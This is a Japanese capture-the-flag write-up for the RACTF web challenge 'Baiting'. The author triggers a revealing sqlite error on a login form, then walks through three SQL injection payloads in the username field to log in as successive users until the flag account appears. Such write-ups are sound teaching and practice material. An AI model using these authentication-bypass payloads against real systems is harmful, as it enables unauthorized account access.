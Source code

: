 # Baiting:Web:200pts
Challenge instance ready at 95.216.233.106:12952.  
That user list had a user called loginToGetFlag. Well, what are you waiting for?  

# Solution
アクセスするとログインフォームが見える。  
Login  
[site.png](../Entrypoint/site/site.png)  
ソースコードからは何も得られないのでログインを試す。  
`'`を入力すると以下のようなエラーが出た。  
```python
Traceback (most recent call last):
  File "/srv/raro/main.py", line 132, in index
    cur.execute("SELECT algo FROM users WHERE username='{}'".format(
sqlite3.OperationalError: unrecognized token: "'''"
```
usernameでSQLインジェクションを試みる。  
まずは基本である`' OR 't'='t`である。  
Welcome, xxslayer420  
[site1.png](../Admin_Attack/site/site.png)  
ではこれ以外のユーザーでのログインを試みる。  
ユーザー名がxxslayer420以外を指定する`' OR username!='xxslayer420`である。  
Welcome, jimmyTehAdmin  
[site2.png](../Admin_Attack/site/flag.png)  
loginToGetFlagではないので、さらにNGを追加していく。  
`' OR (username!='xxslayer420' AND username!='jimmyTehAdmin') --`  
flag(Welcome, loginToGetFlag)  
[flag.png](site/flag.png)  
loginToGetFlagでログインするとflagが出てきた。  

## ractf{injectingSQLLikeNobody'sBusiness}